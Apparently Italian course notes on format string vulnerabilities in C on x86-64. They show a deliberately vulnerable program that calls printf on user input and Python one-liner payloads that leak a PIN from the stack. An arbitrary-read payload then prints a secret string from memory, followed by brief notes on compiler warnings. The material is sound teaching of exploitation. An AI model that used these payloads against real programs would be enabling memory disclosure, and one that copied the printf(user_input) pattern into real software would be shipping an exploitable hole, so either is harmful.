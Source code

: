 Una **format string** è una stringa che contiene direttive riguardanti il suo formato, esse hanno un **numero variabile di argomenti** e sono controllate a **run-time**.
>Controllare una format string consente accesso arbitrario allo stack.

### Argomenti variabili
Una format string è analizzata e, ogni i-esima direttiva è mappata ad una i-esima funzione, `rdi` contiene la format string, mentre gli argomenti presumibilmente sono in: `rsi, rdx, rcx, r8, r9`, e successivamente nello stack.
```c
printf("%s%s%s%s%s%s","H","e","l","l","o"," World\n");
```
```bash
# registri
RCX: 0x555555554761 --> 0x732500480065006c ('l') # 4
RDX: 0x555555554763 --> 0x7325732500480065 ('e') # 3
RSI: 0x555555554765 --> 0x7325732573250048 ('H') # 2
RDI: 0x555555554767 ("%s%s%s%s%s%s") # 1
R8 : 0x555555554761 --> 0x732500480065006c ('l') # 5
R9 : 0x55555555475f --> 0x480065006c006f ('o') # 6
# stack
0000| 0x7fffffffe578 --> 0x5555555546a8 (...) # return address
0008| 0x7fffffffe580 --> 0x555555554774 ... (' World\n') # 7
```

Con **pochi argomenti**:
```c
printf("%s %s", s1) // rdi = "%s %s", rsi = s1, rdx = ?
printf("%s", s1, s2) // rdi = "%s", rsi = s1, rdx = s2
```

- Nel primo caso viene preso ciò che è presente in `rdx`, e viene deferenziato, se non è un indirizzo valido allora avviene un `segfault`
- Nel secondo caso `s1` viene stampato e `s2` viene ignorato

Se l'attaccante ha accesso alla format string allora si può accedere ai registri ed ai contenuti dello stack:
```c
#include <stdio.h>
int main() {
	char buffer[128];
	char PIN[128] = "1337";
	printf("What is your name? ");
	fflush(stdout);
	fgets(buffer, sizeof(buffer), stdin);
	printf("Hello ");
	printf(buffer);
}
```

$$\text{\%}\underbrace{\text{016}}_\text{16 caratteri in stdout}\space\underbrace{\text{l}}_\text{long integer}\space\underbrace{\text{x}}_\text{formato esadecimale}$$

```bash
python -c 'print("AAAAAAAA" + " 016lx"*8)' | ./vulnerablePIN
What is your name? Hello AAAAAAAA 000000006c6c6548 0000000000000000 0000000000000000 00007f01e11d94c0 0000000000000000 4141414141414141 20786c3631302520 2520786c36313025
```
In ordine di apparizione abbiamo: `rsi, rdx, rcx, r8, r9` e poi valori dello stack.

Supponendo che il `PIN` sia allocato nello stack subito `buffer` possiamo fare le seguenti considerazioni:
- `buffer` ha $128$ bytes, ovvero $16$ long-words da $8$ byte ciascuna
- `buffer` è allocato nel sesto argomento
- Abbiamo bisogno di $16+6=22$ `%016lx` per raggiungere la prima word del `PIN`
- $22*6=132>128$, il payload non ci sta

Sostituiamo `%016lx` con `%lx`, ora il payload ci sta dentro al buffer: $22*3=66$, sta anche con il carattere di spazio, per cui possiamo renderlo più leggibile:
```bash
python -c 'print(" %lx"*22)' | ./vulnerablePIN
What is your name? Hello  6c6c6548 0 0 7f63cdf844c0 0 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 786c2520786c2520 a 0 0 ffffffff 0 37333331
```

Abbiamo trovato $37333331$, il tradotto in stringa ha valore $7331$, ma tenendo conto del formato _little endian_, otteniamo $1337$.

### Accesso diretto
Le format strings possono accedere direttamente agli argomenti, rendendo possibile eseguire il dump di ogni posizione dello stack indipendentemente dalla grandezza del `buffer`.

Usiamo `%6$016lx` per accedere al sesto argomento della `printf()`, il quale rappresenta il settimo parametro della `printf()`, ovvero il primo nello stack subito dopo l'indirizzo di ritorno.
```bash
python -c 'print("%22$16lx")' | ./vulnerablePIN
What is your name? Hello         37333331
```

### Leak di posizioni arbitrarie
Con l'accesso diretto possiamo vedere il contenuto di indirizzi arbitrari, l'idea è la seguente:
- Iniettare un indirizzo target nel `buffer` e fare in modo che esso corrisponda all'argomento in posizione `$%x$`, dove `x` lo devo trovare (solitamente si parte cercando da `x=6` in poi)
- Usare `%x$s` il quale de-referenzia e stampa tutto quello che c'è in quel indirizzo

```c
#include <stdio.h>
char supersecret[] = "This is a supersecret string!";

int main() {
	char buffer[128];
	char PIN[128] = "1337";
	printf("What is your name? ");
	fflush(stdout);
	fgets(buffer, sizeof(buffer), stdin);
	printf("Hello ");
	printf(buffer);
}
```
>La randomizzazione degli indirizzi è disattivata.

1. Per capire se il programma possiede vulnerabilità di format strings si prova ad inserire una format string:
```bash
./vulnerableSupersecret
What is your name? %08x
Hello 00000000
```

2. Inseriamo una stringa con tante direttive per capire dove è posizionato il buffer:
```bash
 python -c 'print("AAAAAAAA" + " %16lx"*20)' | ./vulnerableSupersecret
What is your name? Hello AAAAAAAA 0000000000000000 00000000006bbd50 0000000000000000 0000000001738880 0000000000000006 4141414141414141 20786c3631302520 2520786c36313025 302520786c363130 31302520786c3631 3631302520786c36 6c3631302520786c 786c363130252078 20786c3631302520 2520786c36313025 302520786c363130 31302520786c3631
```

notiamo che il buffer è in posizione $6$, per conferma stampiamo solo quello:
```bash
python -c 'print("AAAAAAAA" + " %6$16lx")' | ./vulnerableSupersecret
What is your name? Hello AAAAAAAA 4141414141414141
```

ora sappiamo che che stampando `%6$16lx` otteniamo la stringa passata inizialmente.

3. Troviamo l'indirizzo di `supersecret`:
```bash
objdump -D ./vulnerableSupersecret | grep supersecret
00000000006b90f0 <supersecret>:
```

4. Stampiamo la stringa "nascosta":
```bash
python -c 'print("%7$16lx.\xf0\x90\x6b\x00\x00\x00\x00\x00")' | ./vulnerableSupersecret
What is your name? Hello 000000006b90f020 �k
```

l'indirizzo è corretto, bisogna solo de-referenziarlo come stringa, mantenendo sempre lo stesso numero di caratteri che abbiamo usato, quindi ora andremo ad usare `%7$s` (abbiamo rovesciato la stringa stampata) ed in compenso aggiungiamo dei caratteri che occupano il posto di `6lx` per preservare gli $8$ byte, ovvero `...`:
```bash
python -c 'print "%7$s....\xf0\x90\x6b\x00\x00\x00\x00\x00"' | ./vulnerableSupersecret
What is your name? Hello This is a supersecret string!....�k
```

### Difese
I compilatori moderni segnalano con dei _warning_ se il numero di direttive non corrisponde con il numero di stringhe stampate (e.g. `printf(s)`), comunque gli attacchi sono possibili nel caso in cui la direttiva del formato `f` può essere controllata dall'attaccante, con `printf(f, s)` ad esempio non ci sono _warning_.
